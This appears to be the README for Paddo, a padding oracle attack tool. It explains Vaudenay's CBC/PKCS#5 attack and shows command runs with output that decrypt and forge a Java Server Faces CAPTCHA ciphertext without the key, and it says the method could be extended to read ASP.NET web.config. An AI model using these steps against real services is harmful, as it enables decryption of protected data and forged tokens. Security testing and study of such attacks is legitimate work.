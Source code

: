 Paddo
=====
Audit and attack the underlying cryptography in CBC encrypted blocks for decrypting them or re-encrypting any plaintext without knowing the secret key. An "oracle" is when a service or machine receives a ciphertext, decrypts it and then replies to the sender whether the padding is correct or not. At Eurocrypt 2002, Vaudenay introduced a powerful side-channel attack against CBC-mode encryption with PKCS#5. This framework currently attacks Java Server Faces vulnerable versions and allows to extend current methods for beeing used in customized web applications.

For example:

	http://[EXAMPLE_WEBSITE]/bzJApp/Captcha.action?securityWord=OdXdV/96yBv1hA2cfGnmFFsPhYFi2xCO

Here the ciphertext is: OdXdV/96yBv1hA2cfGnmFFsPhYFi2xCO (Which is the real value of the "security word" but encrypted)

	lucas@debian:~$ ./paddo.py -t http://[EXAMPLE_WEBSITE]/bzJApp/Captcha.action?
	securityWord=OdXdV/96yBv1hA2cfGnmFFsPhYFi2xCO -p securityWord
	[+] Detecting a Padding Oracle in parameter: securityWord
	[+] Encoding Detected: base64
	[+] Blocksize Detected: 8 bytes
	[!] Sending our first block nulled payload
	[!] JSF vulnerable to a Padding Oracle attack
	[+] Decrypting block #: 2
	[+] Original Block: f5840d9c7c69e614
	[+] IV: 39d5dd57ff7ac81b
	[+] Padding !
	[!] Invalid Padding: 0000000000000000
	[...]
	[!] Valid Padding: bbd452917164eb19 5b0f858162db108e
	[!] Intermediate Block: b3dc5a99796ce311
	[*] Block decrypted: 4658570505050505
	[!] Plaintext: 05190,ZRFXW

We successfully decrypted our ciphertext !

Paddo attemps to decrypt valid ciphertext on a service which acts as an "oracle". Obviously this service must know the key of the ciphertext since is the one who will check for proper padding after decrypting it due to PKCS#5.

Also paddo supports re-encryption (CBC-R), that is encrypting a custom plaintext with the server key without really knowing it. 

For example encrypting a "LUCAS" with paddo:

	lucas@debian:~$ ./paddo.py -t http://[EXAMPLE_WEBSITE]/bzJApp/Captcha.action?
	securityWord=OdXdV/96yBv1hA2cfGnmFFsPhYFi2xCO -p securityWord --encrypt 05555,LUCAS
	[...]
	[*] Encrypting: 05555,LUCAS
	[...]
	[!] Valid Padding: 65b4cdb2be1e37d8 2b5c874bd1c94191
	[!] Intermediate Block: 6dbcc5bab6163fd0
	[*] Block decrypted: 6dbcc5bab6163fd0
	[!] Ciphertext: XYnwj4M6c4UrXIdL0clBkQAAAAAAAAAA

If the Cookie image is feed by the securityWord parameter, we will see the word LUCAS in the CAPTCHA.

	http://[EXAMPLE_WEBSITE]/bzJApp/Captcha.action?securityWord=XYnwj4M6c4UrXIdL0clBkQAAAAAAAAAA

This is the core of http://technet.microsoft.com/en-us/security/bulletin/MS10-070.

Briefly, you can encrypt a "web.config" string with the server secret key, and then feed the WebResource.axd script for fetching the content of that file. Currently paddo only attacks Java Server Faces, but it may be extended to also support ASP.NET since the attack is very similar.
